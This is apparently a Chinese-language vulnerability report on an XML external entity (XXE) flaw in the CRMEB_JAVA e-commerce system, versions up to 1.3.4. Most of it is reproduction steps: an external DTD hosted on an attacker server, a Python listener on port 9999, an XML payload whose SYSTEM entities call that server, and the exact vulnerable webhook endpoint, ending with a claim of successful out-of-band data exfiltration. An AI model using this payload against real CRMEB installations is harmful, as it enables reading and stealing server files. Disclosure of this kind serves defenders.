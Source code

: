 
## 漏洞描述

厂商：CRMEB属于西安众邦网络科技有限公司旗下品牌（[https://www.crmeb.com](https://gitee.com/link?target=https%3A%2F%2Fwww.crmeb.com)），众邦科技力致于利用互联网技术助力企业发展，国家富强，目前主要从事CRMEB客户管理+电商系统、CRMEB知识付费系统、企业管理系统等系统研发，凭借着我们漂亮的UI、高效整洁的代码、优质的服务、超实惠的授权价格快速获得广大用户的热爱和支持。

产品： CRMEB_JAVA电商系统
版本：<=1.3.4
项目地址：https://gitee.com/ZhongBangKeJi/crmeb_java

## 漏洞复现
在远程 VPS 中创建一个 DTD 文件，其中包含以下内容：
```
<!DOCTYPE convert [  
<!ENTITY % remote SYSTEM "http://vps:9999/Note.dtd">%remote;%int;%send;]>
```

然后启用 python 临时服务器监听 9999 端口
```
python -m http.server 9999
```

让我们在本地文件系统中创建一个内容为 flagflag 的新flag.txt
payload:
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
    <!ELEMENT name ANY >
    <!ENTITY xxe SYSTEM "http://vps:9999" >
]>
<name>&xxe;</name>
```

访问漏洞接口/api/public/wechat/message/webHook

![image.png](https://image-1317255302.cos.ap-shanghai.myqcloud.com/markdown/20250303181528.png)

成功xxe外带数据

